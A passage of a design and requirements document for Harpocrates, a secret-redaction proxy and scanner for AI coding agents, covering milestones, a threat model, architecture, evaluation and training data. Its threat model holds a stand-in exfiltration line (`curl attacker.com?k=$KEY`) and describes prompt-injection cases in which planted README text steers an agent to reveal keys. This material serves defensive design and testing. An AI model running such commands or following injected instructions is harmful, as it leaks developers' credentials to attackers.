| FR-LEARN-07 | Benchmark behind the claim. On held-out repos, chart real-code alarms per 1,000 files against the number of answers given. Target: at least 50% fewer alarms after 20 answers in a repo, with known-format canary recall unchanged **(proposed)** | Chart and raw results in `bench/results/` | M5 |
| DOC-DEMO-04 | README scenes: a question answered in `harpo review`, then the same kind of false alarm suppressed later while a planted known-format canary in the same file is still caught | GIFs in the README | M5 |

The tagline "learns your false alarms, not your secrets" may appear in the README only once `FR-LEARN-06` and `FR-LEARN-07` are published.

### M6: Model lifecycle

The training pipeline was untracked in R0 (reproduce v17 at tag `v1.3.0`). `FR-ML-02` rebuilds it as one command.

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-ML-01 | `harpo feedback export` writes only "Not a secret" answers as labeled rows: features, label, source, a hashed repo ID and a timestamp. Never values, real paths or real detections, since a real secret's features still reveal its length and character mix. The user sees every row before anything is shared, and sharing is always opt-in | Schema test, a scan of the export for secrets, and a test that true detections are never exported | M6 |
| FR-ML-02 **(Josh writes)** | One command retrains from a pinned snapshot with a fixed seed and produces the same model hash twice. It also writes `xgboost_model.json`'s entry into the hash manifest (`SEC-07`) | Reproducibility test | M6 |
| FR-ML-03 **(Josh writes)** | Splits are by repository. A repo that supplied labels never appears in the evaluation of those labels (`DATA-07`). No single contributor supplies more than 20% of a snapshot's labels **(proposed)**, to limit poisoning | Split audit and contributor-share tests | M6 |
| FR-ML-04 **(Josh writes)** | A CI evaluation gate decides on validation evidence only, as the README already requires. The benchmark and OSS test sets are reported after a model is frozen and never used to pick models (`DATA-09`) | Gate runs in CI on every candidate | M6 |
| FR-ML-05 **(Josh writes)** | Gate criteria. A candidate passes only if all hold **(proposed)**: (1) mean leave-one-LLM-family-out recall at least v17's, and no family more than 1 point lower, at matched alarm rates; (2) real-code alarm rate within 5% of 56.8 (gate) and 14.9 (commit) per 1,000 files at the new thresholds, or lower; (3) no secret type's validation recall more than 2 points below v17's; (4) calibration error on validation ≤ 0.05; (5) 0 known-format canaries leak in the canary harness; (6) inference time per candidate no more than 2× v17's | A deliberately worse model is rejected | M6 |
| FR-ML-06 **(Josh writes)** | A passing model runs in shadow beside the live one on the same inputs and logs where they disagree, without changing any decision | Shadow report with disagreement counts by type | M6 |
| FR-ML-07 | Models ship as versioned manifests (model hash, thresholds, data snapshot hash, gate report). The package keeps the previous model, and `harpo model rollback` switches to it | Rollback test restores the earlier hash and thresholds | M6 |
| FR-ML-08 | Feedback retrain target: on repos held out from the labels, real-code alarms fall at least 20% at unchanged family recall **(proposed)** | Before-and-after table in the README | M6 |

### M7: Org scanning service

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-STREAM-01 | A generator replays the commit history of public repositories, with planted canary secrets, as push events at a set rate | Rate test, plus a planted-canary manifest | M7 |
| FR-STREAM-02 | Events go to a 3-broker Redpanda topic in Docker Compose, keyed by repository so each repo's commits stay in order. Supersedes the Phase 2 "No Kafka" note (Josh, Oct 18) | Ordering test per repo | M7 |
| FR-STREAM-03 **(Josh writes)** | A consumer group of 3 scanner workers uses the shared detector, and commits offsets only after findings are written | Worker-kill test: 0 missed, 0 duplicated | M7 |
| FR-STREAM-04 **(Josh writes)** | Findings are stored with the fingerprint as a unique key, so redelivery is harmless | Replaying the same events twice leaves one finding each | M7 |
| FR-STREAM-05 | Commits that fail to parse or time out go to a dead-letter topic, with deterministic regex and entropy redaction as the fallback | Malformed-event test | M7 |
| FR-STREAM-06 | Survives a worker joining or leaving, and one broker stopping mid-run | 0 missed, 0 duplicated, rebalance under 30 s **(proposed)** | M7 |
| NFR-07 | Report the highest sustained commit rate at which lag does not grow. At that rate, end-to-end delay p95 ≤ 5 s, lag recovers within 60 s after a 5× burst, and lag is reported on a hot partition when one repo sends 10× the commits of the rest **(proposed)** | Load test report | M7 |

### M8: Detections, cloud and publication (deferred)

Deferred by Josh on Oct 18, 2026. Kept here so the IDs are reserved and the plan is complete. Needs a Linux VM Josh owns and an AWS sandbox account.

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-DET-01 | Map Harpo to ATT&CK: T1552.001 Credentials In Files, T1552.004 Private Keys, T1567 Exfiltration Over Web Service | Mapping table in `docs/` | M8 |
| FR-DET-02 | The hook logs every decision as JSON: time, tool, path, decision and finding types. Never values | Log schema test, plus a scan of the log for secrets | M8 |
| FR-DET-03 | Sigma rules, each with an ADS document, for four Atomic Red Team T1552.001 tests on a Linux VM Josh owns, using auditd or Sysmon for Linux: Find AWS credentials, Extract passwords with grep, Search for Git Credential Files, Find .env Files Containing Application Credentials | Each rule fires on its recording | M8 |
| FR-DET-04 | Two Sigma rules over the hook decision log as a custom log source: a denied file retried through a script, and file contents sent out with `curl` | Each fires on its recording | M8 |
| FR-DET-05 | Rules run in CI against recorded attack logs and at least 8 hours of benign activity from the same VM **(proposed)** | Every rule fires on its attack and raises 0 alerts on benign logs | M8 |
| FR-CLOUD-01 | Terraform for a VPC, 1 m7i.xlarge running Redpanda, 4 c7i.xlarge (3 workers and 1 load generator), an S3 bucket for findings, least-privilege IAM roles and a CloudTrail trail. Delegated one resource per commit | Josh reviews `terraform plan`; Harpo runs on it as a pre-commit hook | M8 |
| FR-CLOUD-02 | `terraform destroy` leaves no billable resources | A resource listing after destroy is empty | M8 |
| FR-CLOUD-03 | A canary secret in Secrets Manager, Stratus Red Team's `aws.credential-access.secretsmanager-retrieve-secrets`, and a Sigma rule over CloudTrail that catches it | The rule fires on the Stratus run and not on a day of normal account activity | M8 |
| FR-CLOUD-04 | A $25 billing alert exists before the first `apply` | A check script fails `apply` without it | M8 |
| NFR-08 | Six cloud runs of 4 hours: sustained, burst and skewed load. Budget ≤ $25 on demand **(proposed)** | Cost report with cost per million lines | M8 |
| NFR-09 (stretch) | Egress gate under 1, 10 and 50 concurrent agents: `NFR-01` holds at 10, with p99 ≤ 100 ms at 10 **(proposed)**. At 50, requests queue and then block, never pass unscanned | Concurrency benchmark | M8 |
| DOC-BENCH-01 | README benchmark section. Each benchmark lists its method, hardware and date, with raw results in `bench/results/`. The README must publish: (1) scan time by stage; (2) hook latency p50, p95 and p99, cold and warm, by file size; (3) backfill throughput in lines per second, and peak memory at 1 and 10 million lines; (4) missed and duplicated findings after a scan kill, a worker kill and a broker stop (target 0 and 0); (5) canaries received out of canaries planted at the mock provider; (6) questions per hour and answer accuracy from the labeling study; (7) alarms per 1,000 files against the number of answers, with the suppressor's measured miss rate; (8) the evaluation-gate report for every released model, and real-code alarms before and after a feedback retrain; (9) benchmark and OSS test results for each frozen release, kept even when a later version does better (`DATA-09`); (10) consumer lag under sustained, burst and skewed load; (11) cost per million lines scanned in the cloud runs | Every listed benchmark is in the README with method, hardware, date and raw results. Items land with the milestone that produces them | M3 to M8 |

### Priority if time runs short

Finish in this order, and treat each finished item as a release: (1) R0 cleanup, docstrings, rename and the first two demos; (2) M2 egress gate and the M3 proof requirements; (3) M4 profiling and daemon; (4) M5 asking, fingerprints and the local suppressor; (5) M6 lifecycle; (6) M4 backfill reliability; (7) M7; (8) M8. A smaller system that meets its targets beats a larger one that does not.

## Threat model

The trust boundary is the network edge between your machine and the cloud LLM provider. Everything that crosses it is treated as potentially leaked.

**Assets:** API keys and tokens, cloud credentials, database connection strings, private keys, and passwords embedded in code or config.

| Scenario | Actor | Example | Guard's response | Residual risk |
| --- | --- | --- | --- | --- |
| Accidental read | Well-meaning agent | Opens `.env` to debug a failing DB connection | Read tool redacts; egress gate catches anything missed | Low |
| Indirect exposure | Well-meaning agent | Test output or stack trace prints a connection string | Egress gate scans every tool result | Low to medium; depends on detector recall |
| Obfuscated secret | Accident or attacker | Secret is base64, hex, URL-encoded, or split across lines | Decode-and-rescan pass; evasion suite measures gaps | Medium; measured and published |
| Prompt-injected agent, same channel | External attacker via README, issue, or web page | Injected text tells the agent to read a key and echo it in its reply | Egress gate redacts it before it reaches the model | Medium; encoding tricks are the weak point |
| Prompt-injected agent, other channel | External attacker | Agent runs `curl attacker.com?k=$KEY` | Out of scope for v1; canary tokens can detect it after the fact | High; mitigation is a network sandbox |
| Guard failure | Bug or crash | Scanner panics mid-request | Fail closed: block the request, log the error | Low |

**STRIDE notes on Guard itself:**

- **Tampering:** a rogue MCP server or dependency could modify Guard's config. Mitigation: config file checksum on startup, pinned dependencies.
- **Information disclosure:** Guard's own logs are a secret store if done wrong. Mitigation: log keyed hashes only, never values.
- **Denial of service:** very large tool outputs could slow scanning. Mitigation: streaming scan with a size cap; oversized content fails closed or is truncated with a notice.
- **Spoofing:** anything else on localhost can talk to the proxy port. Mitigation: bind to 127.0.0.1 only and require a per-session token header.

## Architecture

Guard is defense in depth: two layers catch secrets on the way out, and the existing commit gate catches them on the way into git. All layers share one Rust detection core.



| Component | What it does | Status | Language |
| --- | --- | --- | --- |
| harpo-core | Three-stage detector (regex, Shannon entropy, XGBoost via ONNX). Adds secret-type labels, calibrated confidence, and a decode-and-rescan pass for base64, hex, and URL encoding. Streaming API for large inputs. | Exists on a side branch; needs merge and typing | Rust, Python bindings |
| harpo-read | MCP server with `safe_read` and `safe_grep`. Returns file content with secrets replaced by placeholders. Paired with agent config that denies the built-in read tool on sensitive paths. | MCP server exists; read tool is new | Python or Rust |
| harpo-gate | Local HTTP proxy. The agent's API base URL points here. Parses every request body, scans all text and tool-result blocks, redacts, then forwards over TLS to the real provider. Streams responses back unchanged. | New | Rust (axum or hyper) |
| harpo-commit | Existing pre-commit hook and CLI, plus a GitHub Action and SARIF output for GitHub code scanning. | Partly exists | Python CLI over core |
| Audit log | One JSONL line per finding: timestamp, layer, secret type, keyed hash prefix, source path or tool name, action taken. | New | Shared |

**Why two layers on the way out:** the read tool alone is incomplete, because the agent can still `cat` a file through the shell. The egress gate sees everything sent to the model, whatever tool produced it. That is the reference-monitor property called complete mediation. The read tool still earns its place: it has file context (path, type) that improves accuracy, and it redacts before the agent's own local context holds the secret.

**Why a proxy needs no TLS interception:** the agent sends plain HTTP to 127.0.0.1, and Guard opens its own TLS connection upstream. There is no certificate trickery. Harness support and installer lists how each agent is pointed at the gate, and which ones can't be.

**Target repo layout**

```
harpocrates/
  core/            Rust detection library + Python bindings (FR-CORE)
  read/            MCP read tool (FR-READ)
  gate/            Egress proxy (FR-GATE)
  cli/             harpo CLI, pre-commit, SARIF (FR-COMMIT, FR-UX)
  inspect/         Repo preflight, added in v1.2 (FR-PF)
  adapters/        Per-harness install adapters and doctor checks (FR-INSTALL)
  bench/           Detector, leakage, evasion, red-team, utility, latency suites
  bench/canaries/  Fake secrets only, generated by script
  docs/            design.md, threat-model.md, parser specs, data.md, bypasses.md
  AGENTS.md        Working rules for contributors and agents (CLAUDE.md symlinks to it)
```

## Harness support and installer

Not every coding harness can be routed through a local proxy, so Harpocrates states a support tier per harness instead of implying equal protection. The installer is one adapter per harness, verified by a live check after setup. (Checked Sep 27, 2026.)

| Harness | Tier | Request format | How traffic reaches the gate | Known issues |
| --- | --- | --- | --- | --- |
| Claude Code | Full | Anthropic Messages | [`ANTHROPIC_BASE_URL`](https://code.claude.com/docs/en/llm-gateway) in Claude Code settings | Subscription logins still work; the gate must forward the OAuth `anthropic-beta` header untouched |
| Codex CLI | Full | OpenAI Responses | Custom provider in user-level `~/.codex/config.toml`; [project-level provider keys are ignored](https://learn.chatgpt.com/codex/config-file/config-reference) | zstd request bodies and WebSocket transport apply only to the built-in `OpenAI` provider. A custom provider with `supports_websockets` off (the route Harpo uses) gets plain HTTP with SSE, no compression and full history every turn (`docs/gate-transport.md`) |
| OpenCode | Full, per provider | Varies by provider | Provider `baseURL` in [opencode.json](https://opencode.ai/docs/config/) | A repo's own `opencode.json` can override global config |
| GitHub Copilot, own API key | Partial | OpenAI Chat Completions | [Custom endpoint for chat and agent](https://developer.konghq.com/cookbooks/github-copilot-byok/) | Inline completions and Copilot-hosted models never pass through the gate |
| Cursor | Read tool only | n/a | [Base URL override covers only the chat panel](https://docs.orq.ai/ai-studio/integrations/code-assistants/cursor) | Agent, Composer, and tab completion stay on Cursor's backend; possibly routed server-side (unverified) |

**Installer requirements**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-INSTALL-01 | One adapter per harness that writes gate routing, MCP registration, and read-deny rules in that harness's own config format and location | Adapter tests per harness on a clean machine | M2 |
| FR-INSTALL-02 | `harpo doctor` sends a canary through each configured harness and confirms the gate saw and redacted it; warns loudly if traffic bypassed the gate | Deliberately broken config is detected as bypass | M2 |
| FR-INSTALL-03 | Print the support tier for each detected harness; tell Read-tool-only users plainly what isn't protected | Output reviewed for each tier | M1 |
| FR-INSTALL-04 | Decode gzip and zstd request bodies; fail closed on any unknown `Content-Encoding` | Compressed Codex requests scanned; unknown encoding blocked | M2 |
| FR-INSTALL-05 | Forward authentication headers untouched, including subscription and OAuth headers, and never log them | Claude Code subscription session works through the gate | M2 |
| FR-INSTALL-06 | Prefer settings files over shell environment variables, since IDE extensions launched from a dock or menu don't inherit shell variables | IDE-launched session routes through the gate | M2 |
| FR-INSTALL-07 | If a base URL or gateway is already configured, chain to it as Guard's upstream instead of overwriting it | Existing gateway still receives traffic | M3 |
| FR-INSTALL-08 | Back up every config file before editing; installs are idempotent; `harpo guard down` restores originals exactly | Byte-identical restore after install and uninstall | M2 |
| FR-INSTALL-09 | Record the harness versions each adapter was tested against; doctor warns on untested versions | Version table in `docs/`; warning shown | M3 |
| FR-INSTALL-10 | Where the harness supports lifecycle hooks (Claude Code, Codex), use them for placeholder-write warnings and `tool_invoked` logging | Hook events appear in the audit log | M3 |

**Scope:** Claude Code and Codex are required for v1. OpenCode and Copilot adapters ship in v1 only if M3 has room; otherwise they move to v1.1. Cursor gets the read tool only, plus documentation of its limits.

## Product and portfolio map

Harpocrates the product stays small: two trust boundaries around an AI coding session. Your detection engineering work lives in a separate lab repo that consumes Harpocrates events. The product stays usable, and the portfolio still tells one story.



| Piece | Where it lives | Built from | Job |
| --- | --- | --- | --- |
| `harpo guard` | Product, v1 | Harpocrates | Stop secrets leaving for the model |
| `harpo scan` | Product, v1 | Harpocrates CLI | Commit-time and CI scanning |
| `harpo inspect` | Product, v1.2 | New | Show what an untrusted repo will execute, without running it |
| URL scoring in preflight | Product, v1.2 | Phishing-Link-Detection | Score download and fetch URLs found in scripts and agent instruction files |
| ThreatChain investigation | Lab repo | ThreatChain | Correlate Harpocrates and host events into incidents, map to ATT&CK and ATLAS, explain with cited events |
| Behavior rules and network sensor | Lab repo | CIC-IDS2017-EDA, new rules | Detect exfiltration through other channels; distribution-shift study on your own lab traffic |

**Why the split:** the detection engineering pieces are valuable for your resume but would violate the anti-bloat rule inside the product. As a lab that consumes the product's events, they show you can both build a security control and detect what gets past it.

**Not included:** basketball-advisor and the portfolio site (engineering evidence only), the ServiceNow tool (work code; discuss with metrics), and REFLEX (separate research; can use the lab as its test range).

## Repo preflight (v1.2)

`harpo inspect` reads an untrusted repository without executing anything and shows which commands and files would run, and what they request, before you or your agent run setup. It targets real attacks: fake job-interview repos and malicious setup scripts that steal credentials from developers.

**Not novel on its own.** Agent Quarantine already ships a `preflight` command. Harpocrates' version is worth building only if it adds URL scoring, agent instruction file analysis, trust caching, and a measured benchmark.

**Honest limits of static analysis.** Preflight can reliably find entry points: package scripts, lifecycle hooks, git hooks, Makefiles, agent instruction files, and MCP startup commands. It can flag risky primitives in them, like `curl | bash`, `base64` decoding, or reads of credential paths. It cannot reliably trace what arbitrary JavaScript or Python will do: real attack campaigns hide payloads in minified or obfuscated files. So it reports "these entry points will run, and these contain risky primitives," never "this repo is safe." A clean preflight result is not a safety guarantee.

**Requirements**

| ID | Requirement | Acceptance test |
| --- | --- | --- |
| FR-PF-01 | Never execute repository code during inspection | Fixture repos with payloads that would write a marker file; the marker never appears |
| FR-PF-02 | Enumerate entry points: `package.json` scripts and lifecycle hooks, `setup.py` and build hooks, `Cargo` build scripts, Makefile and justfile targets, git hooks and `core.hooksPath`, VS Code tasks, devcontainer and Docker entrypoints, MCP server configs | Each entry point type covered by a fixture |
| FR-PF-03 | Scan agent instruction files (`AGENTS.md`, `CLAUDE.md`, `.cursorrules`, `.github/copilot-instructions.md`, skill files) for execution requests and credential path references | Fixture instructions flagged with file and line |
| FR-PF-04 | Flag risky primitives in entry points: download-and-execute, encoded commands, credential path reads, persistence commands | Per-primitive fixtures |
| FR-PF-05 | Score URLs found in entry points and instruction files with the URL model | URL fixtures scored; latency under 5 ms per URL |
| FR-PF-06 | Explain each finding as an execution chain in plain words, with file and line; no numeric risk score | Output review against the design principles |
| FR-PF-07 | Cache trust by hashing entry point files and instruction files; re-prompt only when one changes | Changing a script invalidates trust; unchanged repo stays quiet |
| FR-PF-08 | Optionally call OSV for dependency advisories; no Harpocrates package reputation database | OSV lookup works offline-tolerant (skips cleanly when offline) |
| FR-PF-09 | Finish in under 2 seconds on a small to medium repo; skip `node_modules`, `.git`, build output, and binaries by default | Timed on 20 benchmark repos |

**Untrusted Repo Benchmark:** inert fixture repos (no live malware, no working payloads, fake canary secrets only) modeled on fake-interview and malicious-setup attacks, plus benign lookalikes. Measure detection rate, false-warning rate on popular benign repos, inspection time, and the share of benign repos needing any user action.

## Key design decisions

| Decision | Choice | Alternative rejected | Why |
| --- | --- | --- | --- |
| Placeholder format | `<<HARPO:aws_access_key:7f3a>>`, typed with a short keyed hash | Generic `[REDACTED]` | The model still knows what kind of value was there, so it can reason about the code. The same secret gets the same placeholder within a session, so references stay consistent. |
| Hashing | HMAC with a random per-session key held in memory | Plain SHA-256 | Plain hashes of short secrets can be brute-forced. A keyed hash that disappears with the session can't be reversed later from logs. |
| Package name (FR-NAME-03, decided Oct 18, 2026) | PyPI distribution `harpo-scan`; the import package stays `Harpocrates`; `harpocrates` on PyPI becomes a shim that depends on `harpo-scan` | Distribution `harpo`; renaming the import package | `harpo` on PyPI is Behavox's GPG-based secret-storing library (1.4.2), in the same field, so the names would be confused. Keeping the import name avoids touching 64 files and any import collision, and users never type it. |
| Restoring real values in responses or file writes | Off by default | Swap placeholders back to real values, as RedactProxy and claude-code-redact do | Restoring lets a prompt-injected model point a placeholder at an attacker's server and have Guard fill in the real secret, a confused-deputy attack. v1 warns when the agent writes a placeholder into a file instead. Revisit later only with an allowlist of safe destinations. |
| Failure mode | Fail closed, with a clear error the agent and user can see | Fail open | Security tools that fail open get bypassed by the first crash. Offer an explicit, logged override flag for emergencies. |
| Detection threshold | Favor recall at the egress gate; favor precision at the commit gate | One threshold everywhere | Over-redacting a model request costs a little utility. A false positive at commit time interrupts a developer and erodes trust in the tool. |
| Deliberate access | User-approved allowlist by path or secret hash, logged | Silent bypass | Some tasks truly need the value, like debugging auth. The approval is visible and auditable. |
| Response direction | Pass model responses through; only flag placeholders echoed into tool calls | Scan responses too | Responses come from the provider, which already saw the request. The leak happens on the way out. |
| Scope of scanning | All text in the request, including system prompt, history, and tool results | Only the newest message | Conversation history is re-sent on every turn. Scanning only the newest message misses secrets from earlier turns that slipped through before a rule update. |

## Evaluation plan

The headline result is a leakage rate measured at a mock LLM server, not a classifier score. A secret either reached the provider or it didn't.

**Test harness:** point the agent at a local mock API server that records every request it receives. Plant canary secrets (realistic but fake keys in real formats) across a test repo, then run scripted and live agent sessions. Count how many canaries appear in recorded requests, with Guard off versus on, and with RedactProxy and claude-code-redact on the same inputs wherever they support the agent.

| Suite | What it measures | Metrics | v1 target |
| --- | --- | --- | --- |
| Detector benchmark | Core accuracy on labeled code | Precision, recall, F1 per secret type; false positives per 1,000 files; calibration curve | Recall 0.95 or higher; publish all numbers |
| Hard negatives | False alarms on things that look secret | FP rate on UUIDs, hashes, minified JS, lockfiles, test fixtures, doc examples | Fewer than 2 per 1,000 files |
| Leakage via read paths | Complete mediation | Canaries reaching the mock server through read tool, `cat`, `grep`, `git log -p`, `env`, test output, MCP tool results | 0 known-format canaries |
| Evasion | Robustness to encoding | Leak rate for base64, hex, URL-encoded, split-line, reversed, JSON-escaped, and spaced-out secrets | Measure and publish; fix the top 3 gaps |
| Prompt-injection red team | Adversarial agent behavior | Leak rate when a planted README instructs the agent to reveal a key, with Guard off vs on | Published before and after numbers |
| Utility cost | Does the agent still work? | Resolve rate on a 50 to 100 task SWE-bench Verified subset with planted canaries, Guard off vs on | Within 3 points (equivalence test) |
| Performance | Overhead | p50 and p95 added latency per request; throughput on a large repo scan | p95 under 50 ms |
| Fail-closed | Safety under failure | Behavior when the scanner is killed, times out, or gets malformed input | 100% blocked, none forwarded |

**Rigor notes:**

- Split train and test data by repository, not by random sample. Random splits let near-duplicate code leak between sets, which inflates scores.
- Keep the evasion and red-team suites separate from training data, and never tune on them.
- Report failures honestly. A published list of known bypasses is more credible to a security interviewer than a perfect score.

### Utility benchmark method

The claim to prove is that swapping in Guard causes no meaningful drop in agent performance. One benchmark measures that claim and the security benefit at the same time.

1. **Harness:** run Claude Code and Codex, the agents people actually use. Use a minimal harness such as mini-swe-agent only for tightly controlled experiments.
2. **Tasks:** a fixed subset of 50 to 100 SWE-bench Verified tasks, chosen with a recorded random seed. The full set is too expensive.
3. **Canaries:** plant realistic fake secrets in each task repo (`.env`, config files, a test fixture, a log file). Without them the run proves no security benefit.
4. **Paired runs:** same model, same tasks, Guard off and Guard on, 2 to 3 attempts each, since agents are nondeterministic.
5. **Pre-registered margin:** write the equivalence margin (3 percentage points) in the repo before the first run. Test it with two one-sided tests (TOST). "No significant difference" is not the claim; "equivalent within 3 points" is.
6. **Report:**
   - resolve rate with 95% confidence intervals
   - canaries leaked, off vs on
   - p50 and p95 added latency
   - tokens used
   - prompt-cache hit rate
   - every task where outcomes differ, with a short explanation

**Cost control:** run the full benchmark only at M3 and at releases. Use a 10-task smoke subset in development.

## Detector training data

Rebuild the training set so the model learns what separates real credentials from secret-like strings in real code, not what Gemma thinks a secret looks like. The current model ships in v1 and becomes the baseline; the rebuilt model ships as v1.1.

**Current data:** labeled data from open research sets and scanner fixtures (TruffleHog and other detectors), plus about 40K samples generated by Gemma 4 4B.

**Detection architecture change:** known provider formats (AWS, GitHub, Stripe, Slack, private key headers) are caught by deterministic rules. The ML model only decides ambiguous candidates, like `password = "PurpleDog197!"` versus `checksum = "M9xKk02pf..."`. Report metrics for the full pipeline and for the ML stage separately.

**Four datasets, never mixed**

| Dataset | Purpose | Source |
| --- | --- | --- |
| Training | Teach the classifier | Deterministic fake secrets injected into real open-source code, real negatives, hard negatives, existing research sets, Gemma samples as augmentation |
| Validation | Thresholds and calibration | Separate repositories |
| External test | Real-world generalization | An independent, manually labeled benchmark such as [SecretBench](https://github.com/setu1421/SecretBench), used once per release |
| Adversarial test | Robustness to evasion | Harpocrates mutation suite |

**Data requirements**

| ID | Requirement | Acceptance test |
| --- | --- | --- |
| DATA-01 | Audit the existing research sets: list each one, its license, and whether any overlaps the external test set. Anything that overlaps is removed from training, or a different external test set is chosen. | `docs/data.md` lists every source with license and overlap check |
| DATA-02 | Deterministic generators per provider with documented prefix, length, and character set; every sample records generator version and seed. All values fake and non-live. | Generator unit tests; format validated against provider docs |
| DATA-03 | Generic passwords come from human-like patterns (words, digits, symbols), not uniform random strings, because people choose them | Password generator produces patterned output; tested separately |
| DATA-04 | Inject secrets into real, permissively licensed open-source files across many file types and insertion styles, including neutral variable names, so the model can't shortcut on names like `SECRET_KEY` | Per-insertion-style metrics; a neutral-name slice is reported |
| DATA-05 | Mine hard negatives from Gitleaks, TruffleHog, and Harpocrates false positives. Label by known structures (hashes, integrity values, UUIDs) plus manual review of a random sample of at least 500 to estimate label noise. | Label-noise estimate published |
| DATA-06 | Every sample records source, generator, repo ID, file type, and language | Schema test on the dataset |
| DATA-07 | Deduplicate exact and near-duplicate samples; split by repository before generating derived samples | Zero repositories shared between splits |
| DATA-08 | Gemma samples tagged `llm_synthetic`, deduplicated, and capped at 10 to 20% of positives unless the ablation shows they help | Provenance field present; share reported |
| DATA-09 | Never train, tune thresholds, or pick features on the external or adversarial test sets. After freezing a release, results on them are kept even if a later version improves. | Frozen model hash recorded with each result |
| DATA-10 | Publish generation scripts and a repository list rather than raw third-party code, and never commit data containing real secrets | Repo review; external benchmark files excluded by `.gitignore` |

**Experiments worth publishing**

1. **Ablation:** Model A (current data), Model B (rebuilt data without Gemma), Model C (rebuilt data with Gemma), all on the same external test set. This measures how well LLM-generated secrets transfer to real code.
2. **Held-out family:** train without one provider (for example Stripe) and test on it, to see whether the model learned general credential features or memorized formats.

**Adversarial suite:** generate evasions by composing transformations (base64, hex, URL and Unicode escaping, splitting across lines, fields, content blocks, or turns, reversing, nesting). Define which transformations are in scope. Arbitrary encryption is undetectable by design, so it goes on the known-bypass list rather than the target list.

**Timeline:** the M3 external evaluation of the current model gives Model A's result. The data rebuild runs in parallel and ships as v1.1 in January 2027. Guard v1 does not wait on it.

## Security principles this project teaches

Each principle below comes from Saltzer and Schroeder's classic design principles or standard security practice. Each maps to a concrete part of Guard you'll build and be able to explain in an interview.

| Principle | Where it shows up in Guard | Interview talking point |
| --- | --- | --- |
| Complete mediation | Egress gate sees every request, not just the read tool | Why guarding one tool isn't enough when the agent has a shell |
| Fail-safe defaults | Fail closed on scanner error; deny built-in reads of sensitive paths | Why fail-open security controls get bypassed |
| Least privilege | Read-only MCP tools; proxy bound to localhost with a session token | How you narrowed what each component can do |
| Defense in depth | Read tool, egress gate, commit gate | What each layer catches that the others miss |
| Economy of mechanism | Small proxy with one job; shared detection core | Why a smaller trusted component is easier to audit |
| Open design | Public benchmark, evasion suite, and known-bypass list | Security that survives the attacker knowing how it works |
| Psychological acceptability | Low false positives, typed placeholders, under 50 ms overhead | Why a tool developers disable protects no one |
| Threat modeling | STRIDE on Guard itself; explicit out-of-scope channels | How you decided what not to defend against |
| Adversarial evaluation | Evasion and prompt-injection suites | Measuring your own weaknesses before an attacker does |
| Secure logging | Keyed hashes only, never values | How security tools become the leak |

## Company signal

All four target companies now sell products that control what data flows into AI tools. Guard is a small, open, measurable version of that problem.

| Company | Related product direction | What Guard signals |
| --- | --- | --- |
| CrowdStrike | [AI Detection and Response and AgentWorks guardrails](https://www.crowdstrike.com/en-us/press-releases/crowdstrike-launches-charlotte-ai-agentworks-ecosystem-for-building-secure-agents/); [Falcon Data Security for AI interactions](https://futurumgroup.com/insights/crowdstrike-deepens-agentic-soc-strategy-across-partners-services-and-devices/) | Endpoint-side data protection, agent security, Rust systems work, measured detection |
| Fortinet | [FortiAI application visibility and control for AI apps](https://www.fortinet.com/corporate/about-us/newsroom/press-releases/2026/fortinet-advances-its-security-operations-platform-with-unified-soc-agentic-ai-and-expanded-endpoint-security) | Controlling AI app traffic at an egress point, which is how Fortinet thinks about security |
| Palo Alto Networks | AI security and AppSec lines (approximate, from memory; verify current product names) | Secure SDLC, DLP for AI, SARIF and CI integration |
| Cisco | AI security and Splunk (approximate, from memory; verify current product names) | Proxy and network-layer thinking, audit telemetry that a SIEM can ingest |

The lab repo then adds the endpoint detection and SOC investigation signal that CrowdStrike and Cisco weigh most.

## Milestones and roadmap

v1 ships in about 8 weeks. Apply to internships from week 2 onward; don't wait for v1.

| Milestone | Dates | Deliverables | Exit criteria |
| --- | --- | --- | --- |
| M0: Repo matches resume | Sep 26 to Oct 5 | Merge Rust core, ONNX, and MCP into main; CI running tests; README with install steps and current benchmark | A stranger can `pip install` it and reproduce your precision and recall numbers |
| M1: Read tool | Oct 6 to Oct 19 | `safe_read` and `safe_grep`; typed placeholders; Claude Code and Codex setup docs with deny rules; secret-type labels in core | Agent can read a repo with planted canaries and none appear in its context |
| M2: Egress gate | Oct 20 to Nov 9 | Localhost proxy; full-request scanning; fail closed; audit log; mock server and canary harness; Claude Code and Codex install adapters with harpo doctor | 0 known-format canaries reach the mock server across all read paths |
| M3: Evaluate and publish | Nov 10 to Nov 23 | Evasion and prompt-injection suites; utility, latency, and competitor comparison study; SARIF and GitHub Action; write-up and 2-minute demo video | All targets in the Evaluation plan measured and published, including failures |
| R0: Cleanup, docs and rename | Oct 18 to Oct 19 (inserted before M2) | Cleanup review and untracks; docstrings enforced in CI; rename to Harpo (`harpo`, `harpo-mcp`, `~/.harpo`, pre-commit `harpo`, MCP server `harpo`); first two README demos; security fixes FR-CORE-07, SEC-01, SEC-07 to SEC-09 | Findings byte-identical to before the cleanup; full suite and coverage floor green; `docs/cleanup-report.md` complete |
| M4: Serving and reliability | Dates set aside (Josh, Oct 18) | Stage profile; detector daemon and thin hook client; fallback that never allows; checkpointed history scans; atomic state files | NFR-03 to NFR-06 met and published |
| M5: Learns false alarms, not secrets | Dates set aside | Out-of-band questions and `harpo review`; fingerprint allowlist; local context-only suppressor | FR-LEARN-06 and FR-LEARN-07 published; labeling study done |
| M6: Model lifecycle | Dates set aside | Feedback export; one-command retrain; CI evaluation gate; shadow runs; versioned manifests and rollback | A deliberately worse model is rejected; feedback retrain target met |
| M7: Org scanning service | Dates set aside | Replay generator; 3-broker Redpanda; scanner consumer group; dead-letter topic | 0 missed and 0 duplicated under worker kill and broker stop; NFR-07 load report |
| M8: Detections, cloud and publication (deferred) | Deferred (Josh, Oct 18) | ATT&CK map; Sigma rules; Terraform deployment; cost runs; README benchmark section | Every rule fires on its recording and is silent on benign logs; cost report |

**After v1:** v1.1 (January 2027) ships the retrained detector from Detector training data. v1.2 (February 2027) ships repo preflight. The lab repo starts after that. Each release must leave the repo finished and demoable.

**Schedule risk and cut order:** scope grew after these dates were set (installer adapters, `harpo doctor`, signed-block handling, competitor comparison). If M2 or M3 slips, cut in this order: (1) OpenCode and Copilot adapters, to v1.1; (2) competitor comparison, to v1.1; (3) OCR for images, which stays pass-with-warning; (4) the full SWE-bench run, falling back to the 10-task subset with the result labeled preliminary. Never cut fail closed, `harpo doctor`, the no-plaintext-logging rule, or the canary leakage test.

